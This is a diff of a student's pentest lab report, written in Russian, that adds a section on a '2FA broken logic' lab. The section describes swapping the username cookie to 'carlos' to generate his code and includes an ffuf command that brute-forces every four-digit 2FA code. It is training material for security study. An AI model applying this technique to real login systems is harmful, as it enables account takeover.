

Before and after one commit to mikhail-alaska/hse, a Markdown page: pentest/pr5/Nikolaev_mikhail_pr5.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Scripted auto-commit on change (2025-10-22 16:49:46) by gitwatch.sh

````diff
--- a/pentest/pr5/Nikolaev_mikhail_pr5.md
+++ b/pentest/pr5/Nikolaev_mikhail_pr5.md
@@ -97,3 +97,13 @@ ffuf -request req.txt -request-proto https \
 ```
 
 ## 8. Lab: 2FA broken logic
+
+Заметил, что в ручке GET /login2 в куки можно поставить ник. Таким образом я туда вставил ник carlos и загенерил ему 2FA
+
+Далее со своего акка взял request, поменял на carlos ник, забрутил его ffuf
+
+```
+ffuf -request req.txt -request-proto https \
+  -w ~/red/SecLists/Fuzzing/4-digits-0000-9999.txt \
+  -c -fc 200
+```
````
